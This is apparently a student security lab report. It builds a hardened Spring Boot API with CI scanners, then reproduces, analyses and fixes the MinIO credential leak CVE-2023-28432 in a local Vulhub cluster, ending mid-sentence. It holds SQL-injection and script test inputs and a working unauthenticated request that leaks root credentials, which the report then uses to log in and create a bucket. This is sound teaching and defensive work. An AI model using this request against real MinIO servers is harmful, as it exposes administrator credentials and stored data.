Information Security
CVE-2023-28432 — MinIO Cluster Information Disclosure
| Variant | [Variant number] |
| Student | [Surname, Name] |
| HDU number | [HDU number] |
| Group | CS4 |
| Date | 20 October 2026 |
Public repository: https://github.com/Enahaha/infs-work1-secure-api
Last successful pipeline: https://github.com/Enahaha/infs-work1-secure-api/actions/runs/39237435374
The purpose of this laboratory work is to go through the complete secure software development lifecycle in one project: build a REST API with protection against common OWASP Top 10 issues, integrate static and dependency security scanners into a CI/CD pipeline, and then reproduce, analyse and remediate a real CVE in an isolated Vulhub environment.
The work has two parts:
The complete source code and evidence are in the public repository https://github.com/Enahaha/infs-work1-secure-api. The successful pipeline is https://github.com/Enahaha/infs-work1-secure-api/actions/runs/39237435374.
| Component | Choice |
|---|---|
| Language / runtime | Java 17 |
| Framework | Spring Boot 4.1.1 (Spring MVC, Spring Security) |
| Build | Maven |
| Persistence | Spring Data JPA + H2 file database |
| Authentication | RS256 JWT, Spring Security OAuth2 resource server |
| Password hashing | BCrypt, cost 12 |
| Tests | JUnit 5, Spring Boot Test, MockMvc |
The application has two entities: UserAccount (username and BCrypt hash) and
Note (owner ID, content, creation time). Two demo users, alice and bob, are
created on first start from the APP_DEMO_PASSWORD environment variable. Only
BCrypt hashes are stored.
| Method | Path | Authentication | Behaviour |
|---|---|---|---|
POST |
/auth/login |
Public | Accepts login and password; returns a JWT on success, HTTP 401 otherwise |
GET |
/api/data |
Bearer JWT | Returns only the notes owned by the authenticated user |
POST |
/api/notes |
Bearer JWT | Creates a note for the authenticated user (self-designed endpoint) |
Login:
curl -i -X POST http://127.0.0.1:8080/auth/login \
-H 'Content-Type: application/json' \
-d '{"login":"alice","password":"Local-demo-2026!"}'
Successful response: HTTP 200 with token, tokenType: Bearer and
expiresIn: 1800.
Create a note:
TOKEN='<token>'
curl -i -X POST http://127.0.0.1:8080/api/notes \
-H "Authorization: Bearer $TOKEN" \
-H 'Content-Type: application/json' \
-d '{"content":"My first secure note"}'
Response: HTTP 201. The ownerId is taken from the verified JWT; a
client-supplied owner is ignored.
Read notes:
curl -i http://127.0.0.1:8080/api/data \
-H "Authorization: Bearer $TOKEN"
Response: HTTP 200 with only the caller's notes. Without a token the same request returns HTTP 401.

Figure 1. Login with the demo user returns a signed JWT.

Figure 2. GET /api/data without an Authorization header returns HTTP 401.
UserAccountRepository and NoteRepository use Spring Data derived queries.
The framework binds the method arguments as JDBC parameters; no SQL string is
built by concatenating user input:
public interface UserAccountRepository extends JpaRepository<UserAccount, Long> {
Optional<UserAccount> findByUsername(String username);
}
public interface NoteRepository extends JpaRepository<Note, Long> {
List<Note> findByOwnerIdOrderByIdAsc(Long ownerId);
}
The integration test passwordsAreHashedAndWrongCredentialsAreRejected submits
the username ' OR '1'='1 and verifies HTTP 401. The recorded API test also
shows the injection-style login attempt being rejected.
Note content is stored as entered and HTML-escaped when it is returned:
public record NoteResponse(Long id, String content, Instant createdAt) {
static NoteResponse from(Note note) {
return new NoteResponse(
note.getId(),
HtmlUtils.htmlEscape(note.getContent()),
note.getCreatedAt());
}
}
The test loginCreateAndReadEscapeHtmlAndIsolateOwners submits
<script>alert('x')</script> and verifies that the JSON response contains
<script>alert('x')</script>.

Figure 3. A note containing <script>alert(1)</script> is returned as
HTML-escaped text.
HTML escaping is appropriate for the HTML-text context of this API. It is not a substitute for context-specific encoding in JavaScript, CSS or URL contexts, and clients must not decode the value and insert it as raw HTML.
iss, aud, sub, iat and
exp. The subject is the user ID, and the token expires after 1800 seconds.Authorization: Bearer
header. Cookie authentication, HTTP Basic and form login are not configured.cookiesAndHttpBasicDoNotAuthenticateRequests verifies that a valid
JWT placed in a cookie does not authenticate a request, that Basic credentials
do not authenticate a request, and that an explicit Bearer token does.docs/SECURITY_REVIEW.md; the
same test checks the stateless behaviour.127.0.0.1.X-Content-Type-Options: nosniff,
X-Frame-Options: DENY and cache-control headers.mvn test
Result: 7 tests, 0 failures, 0 errors. The tests cover login and token issuance, BCrypt storage, wrong credentials, SQL-injection-style input, unauthenticated access, expired/tampered/wrong-issuer/wrong-audience tokens, note creation and reading, cross-user isolation, HTML escaping, field validation and malformed JSON.
The workflow is .github/workflows/ci.yml. It runs automatically on every push,
on every pull request and on manual dispatch. Two jobs run in parallel:
| Job | Tool | Failure condition |
|---|---|---|
| Tests and SAST | JUnit / Spring Boot, SpotBugs 4.10.5.0 + FindSecBugs 1.14.0 | Test failure; any non-excluded SECURITY-category finding; analysis error |
| Dependency vulnerability scan (SCA) | OWASP Dependency-Check 12.2.2 | CVSS ≥ 7 finding; scan error |
The SAST job scans the SECURITY category at every confidence level. Four
initial findings were reviewed. Three SPRING_ENDPOINT entries are endpoint
inventory rather than vulnerabilities, and the
SPRING_CSRF_PROTECTION_DISABLED warning does not apply to a stateless
Bearer-only API. Two narrow exceptions are documented in
config/spotbugs-reviewed.xml and docs/SECURITY_REVIEW.md; all other security
rules remain enabled. The exceptions do not claim that the application is free
of vulnerabilities.
The SCA job includes test-scope dependencies. The NVD data source is enabled;
OSS Index is disabled because it requires separate credentials. When the
optional NVD_API_KEY secret is absent, the script uses the official
Dependency-Check NVD data feed mirror. A scan error or a CVSS ≥ 7 finding fails
the job; the threshold and error checks are not relaxed.
50b16bb
Figure 4. The successful GitHub Actions run with both security jobs.

Figure 5. The SAST report rendered from the actual spotbugsXml.xml.

Figure 6. The Dependency-Check summary: 70 unique dependencies, 0 vulnerabilities.
Dependency-Check found 11 vulnerabilities in the transitive
tomcat-embed-core 11.0.24, 9 of them with CVSS ≥ 7. The build failed as
designed. pom.xml now sets tomcat.version=11.0.27; the after-fix scan
reports 0 vulnerable dependencies. The before/after HTML and JSON reports and
the scan logs are archived in docs/security-reports/local/ and are summarized
in docs/DEPENDENCY_REMEDIATION.md. This is a real example of the SCA gate
finding and verifying a fix, not a synthetic exercise.
| Field | Value |
|---|---|
| CVE | CVE-2023-28432 |
| CVSS v3.1 | 7.5 High — AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N |
| CWE | CWE-200 (Exposure of Sensitive Information) |
| Affected | MinIO distributed deployments from RELEASE.2019-12-17T23-16-33Z to before RELEASE.2023-03-20T20-16-18Z |
| Fixed | RELEASE.2023-03-20T20-16-18Z |
| Lab | Vulhub minio/CVE-2023-28432, three-node cluster |
In distributed mode, MinIO nodes use an internal bootstrap endpoint to check
that they share the same MINIO_* environment variables. In vulnerable
releases, POST /minio/bootstrap/v1/verify returned the complete
ServerSystemConfig, including a MinioEnv map of environment variables. The
denylist did not exclude the root credentials, so an unauthenticated client
could read MINIO_ROOT_USER and MINIO_ROOT_PASSWORD in plaintext.
The Vulhub compose file starts three MinIO nodes. Node1 exposes the S3 API on
port 9000 and the web console on port 9001; nodes 2 and 3 are internal cluster
members. The image is vulhub/minio:2023-02-27T18-10-45Z, which reports:
minio version RELEASE.2023-02-27T18-10-45Z (commit-id=0ff931dc765d5d8fdddcdf7687fec1b0b194fca9)
Runtime: go1.19.6 linux/amd64
The cluster starts with:
cd vulhub/minio/CVE-2023-28432
docker compose up -d
GET /minio/health/live returns HTTP 200 and the console returns HTTP 200 when
the cluster is ready.

Figure 7. The running 3-node MinIO cluster and the vulnerable release.
No credentials, cookies or S3 signatures are required:
curl -i -X POST http://127.0.0.1:9000/minio/bootstrap/v1/verify
The vulnerable server returns HTTP 200 and a JSON body. The relevant part of the actual response is:
"MinioEnv": {
"MINIO_ROOT_USER": "minioadmin",
"MINIO_ROOT_PASSWORD": "minioadmin-vulhub",
"MINIO_ACCESS_KEY_FILE": "access_key",
"MINIO_SECRET_KEY_FILE": "secret_key",
"...": "..."
}

Figure 8. The actual unauthenticated response, with the leaked root credentials highlighted.
The leaked credentials are accepted by the web console:
curl -i -X POST http://127.0.0.1:9001/api/v1/login \
-H 'Content-Type: application/json' \
-d '{"accessKey":"minioadmin","secretKey":"minioadmin-vulhub"}'
Result: HTTP 204 with a session cookie. The session lists all buckets. Using the same credentials through the MinIO client creates a bucket:
Bucket created successfully `leaked/attacker-bucket-033200`.
[2026-10-20 03:32:00 UTC] 0B attacker-bucket-033200/
[2026-10-20 03:29:54 UTC] 0B cve-proof-bucket/
[2026-10-20 03:30:53 UTC] 0B regression-bucket/

Figure 9. The leaked credentials log in to the console and create a bucket.
This demonstrates loss of confidentiality and administrative write access. In a real deployment, the same credentials would allow reading, modifying or deleting objects, changing bucket policies and creating or removing users. Integrity and availability are not directly affected by the disclosure itself, but they follow from the administrative access obtained with the leaked credentials.
In cmd/bootstrap-peer-server.go at
RELEASE.2023-02-27T18-10-45Z, getServerSystemCfg() builds MinioEnv from
every environment variable beginning with MINIO_, skipping only a small
denylist:
var skipEnvs = map[string]struct{}{
"MINIO_OPTS": {},
"MINIO_CERT_PASSWD": {},
"MINIO_SERVER_DEBUG": {},
"MINIO_DSYNC_TRACE": {},
}
The root credentials were not in that list, and the values were copied verbatim:
envValues[envK] = env.Get(envK, "")
The handler had no caller authentication:
func (b *bootstrapRESTServer) VerifyHandler(w http.ResponseWriter, r *http.Request) {
ctx := newContext(r, w, "VerifyHandler")
cfg := getServerSystemCfg()
logger.LogIf(ctx, json.NewEncoder(w).Encode(&cfg))
}
The route is registered on the bootstrap router under
/minio/bootstrap/v1/verify. It is served on the same listener as the S3 API,
but the S3 request-signature middleware does not cover this reserved internal
path. The handler therefore accepted requests from any client that could reach
port 9000 and returned the configuration before any authentication check.
This is an access-control and data-exposure design error (CWE-200), not a memory-safety bug. The vulnerable code combined three mistakes: an internal endpoint was exposed on a public listener, the endpoint did not authenticate its caller, and the response included secrets because the denylist was incomplete.
The upstream fix is commit
3b5dbf9
("allow bootstrapping to validate internode tokens"). It adds the four
sensitive keys to skipEnvs, hashes the remaining environment values, and calls
storageServerRequestValidate(r) before building the response:
if err := storageServerRequestValidate(r); err != nil {
b.writeErrorResponse(w, err)
return
}
storageServerRequestValidate in cmd/storage-rest-server.go extracts a
Bearer JWT, verifies it with the cluster's active secret key, requires the
access key or subject to match the active credential, requires the audience to
equal the URL raw query, and requires the X-Minio-Time header to be within 15
minutes. Only a real storage-server peer can produce such a token.

Figure 10. The upstream diff: sensitive keys are skipped and hashed, and the verify handler validates an internode JWT.
The lab fix upgrades the image in docker-compose.yml from the vulnerable
release to the first fixed release:
services:
node1:
image: minio/minio:RELEASE.2023-03-20T20-16-18Z
command:
- server
- --console-address
- :9001
- http://node1:9000/mnt/data1
- http://node2:9000/mnt/data2
- http://node3:9000/mnt/data3
environment:
- MINIO_ROOT_USER=minioadmin
- MINIO_ROOT_PASSWORD=minioadmin-vulhub
The same image and command are used for node2 and node3. The complete fixed
file is included in the submission folder
fixes/CVE-2023-28432/docker-compose.yml. The official image uses server ...
as the command; its entrypoint prepends minio. The Vulhub image used
minio server ....
Apply and restart:
cd vulhub/minio/CVE-2023-28432
docker compose down
docker compose up -d
The fixed server reports RELEASE.2023-03-20T20-16-18Z. The fix is effective
for three reasons:
MinioEnv;VerifyHandler requires an internode JWT, so an unauthenticated
caller is rejected before the configuration is built;Because the credentials may have leaked before the upgrade, a real incident response should also rotate the root credentials and review access logs. The lab keeps the Vulhub defaults to make the reproduction deterministic.
Repeat the exact request from Section 4.3:
curl -i -X POST http://127.0.0.1:9000/minio/bootstrap/v1/verify
Actual result:
HTTP/1.1 403 Forbidden
Content-Type: text/plain; charset=utf-8
Content-Length: 17
JWT token missing
No environment variables and no credentials are returned. The attack no longer works.

Figure 11. The same unauthenticated request receives HTTP 403 from the fixed release.
The fix must not break normal object-storage functionality. The following checks were run after the upgrade:
GET /minio/health/live returns HTTP 200.mc mb creates regression-bucket-033200.mc cp uploads a 35-byte object and mc cat returns its content:
regression-ok 2026-10-20T03:31:19Z.cve-proof-bucket,
attacker-bucket-033200) are still present and readable; the fixed cluster
